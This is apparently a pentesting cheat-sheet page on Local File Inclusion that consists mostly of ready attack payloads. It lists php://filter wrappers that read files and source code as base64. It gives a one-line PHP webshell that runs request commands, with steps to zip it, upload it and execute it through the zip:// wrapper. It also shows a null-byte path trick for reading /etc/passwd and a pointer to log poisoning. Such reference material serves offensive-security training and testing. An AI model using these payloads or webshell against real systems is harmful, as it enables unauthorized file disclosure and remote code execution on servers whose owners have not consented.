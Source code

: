```yaml
---
icon: file-import
description: Local File Inclusion
---
```


# LFI

{% hint style="info" %}
### <mark style="color:purple;">`PHP Filters & Wrappers`</mark>

#### <mark style="color:red;">`Filter Inclusion`</mark>

{% code title="Exfiltrate files" overflow="wrap" %}
```php
php://filter/read=convert.base64-encode/resource=<PATH_TO_THE_FILE>
```
{% endcode %}

{% code title="Exfiltrate the source code" %}
```php
php://filter/convert.base64-encode/resource=dashboard
```
{% endcode %}

#### <mark style="color:red;">`Remote Code Execution`</mark>

<mark style="color:purple;">The</mark> <mark style="color:orange;">**`zip://`**</mark> <mark style="color:purple;">stream wrapper can be used in specific attack scenarios to potentially execute malicious code.</mark>

* <mark style="color:purple;">First, create the</mark> <mark style="color:orange;">**`webshell`**</mark><mark style="color:purple;">:</mark>

```sh
echo '<?php system($_REQUEST['cmd']); ?>' > cmd.php
```

* <mark style="color:purple;">Second,</mark> <mark style="color:orange;">**`zip`**</mark> <mark style="color:purple;">the file:</mark>

```sh
zip shell.zip cmd.php
```

* <mark style="color:purple;">Important to mention that the file extension can be different from</mark> <mark style="color:orange;">**`.zip`**</mark><mark style="color:purple;">, the wrapper will still execute the code inside.</mark>
* <mark style="color:purple;">Third, upload the file and once is done, use the wrapper:</mark>

{% code overflow="wrap" %}
```php
zip://uploads/PATH/TO/FILE%23cmd&cmd=id
```
{% endcode %}
{% endhint %}

***

{% hint style="info" %}
### <mark style="color:purple;">The</mark> <mark style="color:orange;">`%00`</mark> <mark style="color:purple;">Null Terminator</mark>

<mark style="color:purple;">Is often used to</mark> <mark style="color:purple;"></mark><mark style="color:purple;">**terminate a string prematurely,**</mark> <mark style="color:purple;"></mark><mark style="color:purple;">effectively allowing attackers to manipulate the filename or file extension.</mark>

```url
http://10.10.10.80/index.php?op=/etc/passwd%00
```
{% endhint %}

***

{% hint style="info" %}
### <mark style="color:purple;">`Chaining`</mark>

* <mark style="color:purple;">If it's possible to access logs try</mark> [<mark style="color:orange;">**`Log Poisoning`**</mark>](log-poisoning.md)&#x20;
{% endhint %}

